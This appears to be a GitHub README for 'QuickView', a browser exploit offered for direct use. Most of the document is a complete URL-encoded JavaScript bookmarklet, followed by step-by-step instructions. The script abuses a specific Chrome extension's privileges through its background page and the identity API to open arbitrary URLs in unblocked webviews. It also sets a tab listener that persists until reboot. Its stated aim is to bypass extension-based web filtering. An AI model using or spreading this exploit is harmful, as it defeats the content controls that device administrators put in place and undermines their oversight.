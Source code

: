```yaml
---
title: webview-quickview
---
```


-e 
QuickView:
This exploit creates login windows with arbitrary URLs, allowing you to browse the web without any extensions.
A blog post with an explanation is available on this link - https://ading.dev/blog/posts/quickview.html.

Javascript:
javascript:!function()%7Bif(%22chrome-extension%3A%2F%2Fbpmcpldpdmajfigpchkicefoigmkfalc%22!%3D%3Dwindow.origin)return void alert(%22This is the wrong page to execute QuickView.%22)%3Bif(window.quickview)return void alert(%22QuickView is already active in this tab.%22)%3Bwindow.quickview%3D!0%3Blet t%3Dt%3D%3Edocument.getElementById(t)%2Cn%3D%7BGoogle%3A%22https%3A%2F%2Fgoogle.com%22%2CYoutube%3A%22https%3A%2F%2Fyoutube.com%22%2CDiscord%3A%22https%3A%2F%2Fdiscord.com%22%2CReddit%3A%22https%3A%2F%2Freddit.com%22%2C%22Titanium Network%22%3A%22https%3A%2F%2Ftitaniumnetwork.org%22%7D%2Ce%3Dnull%3Bfunction i()%7Blet n%3Dt(%22url_input%22).value%3Bn.startsWith(%22https%3A%2F%2F%22)%7C%7Cn.startsWith(%22http%3A%2F%2F%22)%7C%7Calert(%22Warning%3A Your URL does not begin with http%3A%2F%2F or https%3A%2F%2F.%22)%2Co(n)%7Dfunction o(t)%7Blet n%3D%60data%3Atext%2Fhtml%2C%5Cn    %3Chtml%3E%5Cn      %3Chead%3E%5Cn        %3Cscript%3E%5Cn          setTimeout(() %3D%3E %7B%5Cn            window.location.href %3D %22%24%7BencodeURIComponent(t)%7D%22%3B%5Cn          %7D%2C 500)%3B%5Cn        %3C%5C%2Fscript%3E%5Cn      %3C%2Fhead%3E%5Cn      %3Cbody%3E%5Cn        %3Cp%3ERedirecting to %24%7Bt%7D%3C%2Fp%3E%5Cn      %3C%2Fbody%3E%5Cn    %3C%2Fhtml%3E%60%3Be.chrome.identity.launchWebAuthFlow(%7Burl%3An%2Cinteractive%3A!0%7D%2C(()%3D%3E%7B%7D))%7D!function(t)%7Blet n%3Ddocument.createElement(%22iframe%22)%3Bn.style.display%3D%22none%22%2Cn.src%3Dwindow.origin%2B%22%2Fscripts%2Fcommon%2Felements%2Fhyperlink%2Fhyperlink.html%22%2Cn.onload%3D()%3D%3E%7Bt(n.contentWindow.chrome.extension.getBackgroundPage())%2Cn.remove()%7D%2Cdocument.body.append(n)%7D((function(a)%7Be%3Da%2Cdocument.write('%5Cn  %3C!DOCTYPE html%3E%5Cn  %3Chtml%3E%5Cn    %3Chead%3E%5Cn      %3Cmeta charset%3D%22utf-8%22%3E%5Cn      %3Cmeta name%3D%22viewport%22 content%3D%22width%3Ddevice-width%22%3E%5Cn      %3Clink rel%3D%22stylesheet%22 href%3D%22https%3A%2F%2Ffonts.xz.style%2Fserve%2Finter.css%22%3E%5Cn      %3Clink rel%3D%22icon%22 href%3D%22https%3A%2F%2Fquickview-exploit.pages.dev%2Fimg%2Ficon_32.png%22%3E%5Cn      %3Ctitle%3EQuickView GUI%3C%2Ftitle%3E%5Cn      %3Cstyle%3E%5Cn        %5Cn  * %7B%5Cn    font-family%3A %22Inter%22%2C sans-serif%3B%5Cn    color%3A %23e2e8f0%5Cn  %7D%5Cn%5Cn  body %7B%5Cn    background-color%3A %230f172a%3B%5Cn  %7D%5Cn%5Cn  .button %7B%5Cn    background-color%3A %231a73e8%3B%5Cn    text-decoration%3A none%3B%5Cn    user-select%3A none%3B%5Cn    font-size%3A 14px%3B%5Cn    padding%3A 10px%3B%5Cn  %7D%5Cn%5Cn  %23title_div %7B%5Cn    display%3A flex%3B%5Cn    align-items%3A center%3B%5Cn    gap%3A 16px%3B%5Cn  %7D  %5Cn%5Cn  %23input_div %7B%5Cn    display%3A flex%3B%5Cn    gap%3A 6px%5Cn  %7D%5Cn%5Cn  %23url_input %7B%5Cn    padding%3A 9px%3B%5Cn    background-color%3A %231e293b%3B%5Cn    border%3A 2px solid %23334155%3B%5Cn    width%3A 100%25%3B%5Cn  %7D%5Cn%5Cn  %23webview_button %7B%5Cn    width%3A 150px%3B%5Cn    text-align%3A center%3B%5Cn  %7D%5Cn%5Cn  %23content %7B%5Cn    max-width%3A 600px%3B%5Cn    margin-left%3A auto%3B%5Cn    margin-right%3A auto%3B%5Cn  %7D%5Cn      %3C%2Fstyle%3E%5Cn    %3C%2Fhead%3E %5Cn    %3Cbody%3E%5Cn      %3Cdiv id%3D%22content%22%3E%5Cn        %3Cdiv id%3D%22title_div%22%3E%5Cn          %3Cimg id%3D%22icon_img%22 src%3D%22https%3A%2F%2Fquickview-exploit.pages.dev%2Fimg%2Ficon.png%22 height%3D%2264px%22%3E%5Cn          %3Ch1%3EQuickView%3C%2Fh1%3E%5Cn        %3C%2Fdiv%3E%5Cn        %3Cdiv id%3D%22input_div%22%3E%5Cn          %3Cinput id%3D%22url_input%22 placeholder%3D%22Enter a URL here.%22%3E%5Cn          %3Ca id%3D%22webview_button%22 class%3D%22button%22 href%3D%22%23%22%3EOpen Webview%3C%2Fa%3E%5Cn        %3C%2Fdiv%3E%5Cn        %3Cp%3EEnter any URL into the box above and it will open in an unblocked webview. Note that if the page load fails%2C the webview will close without displaying anything.%3C%2Fp%3E%5Cn        %3Ch2%3EPreset URLs%3A%3C%2Fh2%3E%5Cn        %3Cul id%3D%22urls_list%22%3E%3C%2Ful%3E%5Cn%5Cn        %3Ch2%3ECredits%3A%3C%2Fh2%3E%5Cn        %3Cp%3EQuickView was created by vk6%237391 and Bypassi%237037%2C and it is licensed under the %3Ca href%3D%22https%3A%2F%2Fwww.gnu.org%2Flicenses%2Fgpl-3.0.txt%22 target%3D%22_blank%22%3EGNU GPL v3%3C%2Fa%3E. The source code is available at%3A %3Ca href%3D%22https%3A%2F%2Fgithub.com%2Fading2210%2Fquickview%22 target%3D%22_blank%22%3Ehttps%3A%2F%2Fgithub.com%2Fading2210%2Fquickview%3C%2Fa%3E%3C%2Fp%3E%5Cn        %3Cp%3EThis exploit is part of the %3Ca href%3D%22https%3A%2F%2Fgithub.com%2Fswarm-team%22 target%3D%22_blank%22%3E%7Bswarm%7D project%3C%2Fa%3E and utilizes a variation of the %3Ca href%3D%22https%3A%2F%2Fblog.bypassi.com%2F_%2Fpoint-blank%22 target%3D%22_blank%22%3Epoint-blank%3C%2Fa%3E exploit.%3C%2Fp%3E%5Cn      %3C%2Fdiv%3E%5Cn    %3C%2Fbody%3E%5Cn  %3C%2Fhtml%3E')%2Cfunction()%7Blet e%3Dt(%22urls_list%22)%2Ci%3Dt(%22url_input%22)%3Bfor(let%5Bt%2Co%5Dof Object.entries(n))%7Blet n%3Ddocument.createElement(%22li%22)%2Ca%3Ddocument.createElement(%22a%22)%3Ba.innerHTML%3Dt%2Ca.onclick%3Dfunction()%7Bi.value%3Do%7D%2Ca.href%3D%22%23%22%2Cn.append(a)%2Ce.append(n)%7D%7D()%2Ce.tab_listener%26%26e.chrome.tabs.onUpdated.removeListener(e.tab_listener)%2Ce.tab_listener%3D(t%2Cn%2Ci)%3D%3E%7Bif(%22loading%22!%3D%3Dn.status)return%3Bif(%22https%3A%2F%2Fwww.google.com%2F%23%2520%22!%3Di.url)return%3Be.chrome.tabs.remove(t)%2Ce.popup%3De.open()%3Blet a%3De.popup.prompt(%22What URL would you like to open a webview for%3F%22%2C%22https%3A%2F%2Fwww.google.com%22)%3Ba%26%26o(a)%7D%2Ce.chrome.tabs.onUpdated.addListener(e.tab_listener)%2Ct(%22webview_button%22).onclick%3Di%7D))%7D()%3B;

Instructions:
-> Make a bookmarklet with the URL being the javascript above.
-> Double click on the opener button at the bottom of the page. This should open a new tab with a URL of about:blank#blocked.
-> On the newly opened tab, click on the bookmarklet that was just created.
-> The QuickView GUI should open, and you can now enter any URL to open it in an unblocked webview.
-> You can open another webview at any time by visiting https://www.google.com/# , and this will persist until a reboot. 
You can also drag the "QuickView Shortcut" button from below into your bookmarks bar for easy access. However, if you want to use the full GUI, you will have to use the website.

This exploit is part of the {swarm} project and utilizes a variation of the Point-Blank exploit.

Credits:
Bypassi#7037
ading2210 (vk6#7391)
https://github.com/ading2210/quickview
https://quickview-exploit.pages.dev/

